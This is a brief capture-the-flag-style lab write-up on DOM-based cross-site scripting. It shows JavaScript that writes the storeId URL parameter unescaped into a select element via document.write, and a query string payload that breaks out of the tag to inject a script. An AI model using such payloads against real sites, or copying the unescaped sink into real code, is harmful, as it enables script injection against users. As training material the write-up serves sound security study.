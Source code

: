 ## XSS Lab 3: DOM XSS inside select element Sink

### Analysis
The product page shows that the script gets a value called `storeId` from the `location.search` and then uses it uses it in `document.write` to show the stock. 

Adding a `storeId` with a random string to the URL query will show the string in the dropdown menu. 

Javascript:
```
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
```

XSS Query:
```
product?productId=2&storeId="><script>alert(0)</script>
```